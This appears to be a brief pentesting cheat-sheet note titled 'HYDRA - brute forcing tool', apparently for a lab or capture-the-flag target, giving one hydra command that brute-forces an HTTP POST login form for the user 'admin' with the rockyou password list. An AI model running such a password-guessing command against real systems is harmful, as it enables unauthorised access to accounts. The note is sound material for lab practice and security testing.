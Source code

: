 # HYDRA - brute forcing tool

### Brute forcing HTTP login

```bash
sudo hydra -l admin -P /usr/share/dict/rockyou.txt 10.129.1.15 http-post-form "/login.php:Username=admin&Submit=Login&Password=^PASS^:Incorrect information"
```
